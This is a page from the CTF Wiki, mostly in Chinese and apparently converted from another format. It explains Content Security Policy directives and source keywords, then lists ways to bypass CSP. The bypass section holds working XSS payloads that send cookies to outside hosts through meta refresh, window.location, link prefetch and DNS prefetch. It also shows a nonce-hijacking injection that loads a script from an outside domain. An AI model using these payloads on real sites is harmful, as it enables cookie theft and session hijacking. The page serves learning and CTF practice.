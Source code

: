 # CSP
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



内容安全策略或CSP是一种内置的浏览器安全措施，用于防御跨站点脚本（XSS）等Web攻击。该策略的规则用于定义一组浏览器可以安全地从中加载内容的路径和源，并给出相应的描述。其中，这些资源包括图像、frame、javascripts等。


一个CSP头由多组CSP策略组成，中间由分号分隔，就像这样：


```plain
Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'
Plain Text
```



其中每一组策略包含一个策略指令和一个内容源列表


**一、常用的策略指令：**





### **default-src**





default-src 指令定义了那些没有被更精确指令指定的安全策略。这些指令包括：





**child-src**child-src 指定定义了 web workers 以及嵌套的浏览上下文（如`<frame>`和`<iframe>`）的源。

* 
**connect-src**connect-src定义了请求、XMLHttpRequest、WebSocket 和 EventSource 的连接来源。

* 
**font-src**font-src定义了字体加载的有效来源

* 
**img-src**img-src定义了页面中图片和图标的有效来源

* 
* **media-src**
* **object-src**

**script-src**script-src定义了页面中Javascript的有效来源

* 
**style-src**style-src定义了页面中CSS样式的有效来源

* 



## **二、内容源：**





内容源有三种：源列表、关键字和数据


**1、源列表**





```plain
源列表是一个字符串，指定了一个或多个互联网主机（通过主机名或 IP 地址），和可选的或端口号。站点地址可以包含可选的通配符前缀 (星号, '*')，端口号也可以使用通配符 (同样是 '*') 来表明所有合法端口都是有效来源。主机通过空格分隔。有效的主机表达式包括：    http://*.foo.com （匹配所有使用 http协议加载 foo.com 任何子域名的尝试。）    mail.foo.com:443 （匹配所有访问 mail.foo.com 的 443 端口 的尝试。）    https://store.foo.com  （匹配所有使用 https协议访问 store.foo.com 的尝试。）如果端口号没有被指定，浏览器会使用指定协议的默认端口号。如果协议没有被指定，浏览器会使用访问该文档时的协议。
Plain Text
```



**2、关键字**





‘none’  代表空集；即不匹配任何 URL。两侧单引号是必须的。

* 
‘self’  代表和文档同源，包括相同的 URL 协议和端口号。两侧单引号是必须的。

* 
‘unsafe-inline’  允许使用内联资源，如内联的

* 



### **3、数据**





data:  允许data: URI作为内容来源。

* 
* mediastream:  允许mediastream: URI作为内容来源。 Content-Security-Policy: default-src 'self'; img-src 'self' data:; media-src mediastream:



## CSP绕过

和XSS还是绑定在一起，毕竟需要绕过的就是XSS嘛


## 1**、url跳转**





在default-src ‘none’的情况下，可以使用meta标签实现跳转





```plain
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
1
Plain Text
```






在允许unsafe-inline的情况下，可以用window.location，或者window.open之类的方法进行跳转绕过。





```plain
<script>  window.location="http://www.xss.com/x.php?c=[cookie]";</script>
123
Plain Text
```



## 2、`<link>`标签预加载 CSP对link标签的预加载功能考虑不完善。





在Chrome下，可以使用如下标签发送cookie


```plain
<link rel="prefetch" href="http://www.xss.com/x.php?c=[cookie]">
1
Plain Text
```






在Firefox下，可以将cookie作为子域名，用dns预解析的方式把cookie带出去，查看dns服务器的日志就能得到cookie





```plain
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
1
Plain Text
```






## **3、利用浏览器补全**


有些网站限制只有某些脚本才能使用，往往会使用`<script>`标签的nonce属性，只有nonce一致的脚本才生效，比如CSP设置成下面这样：


```plain
Content-Security-Policy: default-src 'none';script-src 'nonce-abc'
1
Plain Text
```






那么当脚本插入点为如下的情况时





```plain
<p>插入点</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
12
Plain Text
```






这样会拼成一个新的script标签，其中的src可以自由设定





```plain
<p><script src=//14.rs a="</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
Plain Text
```




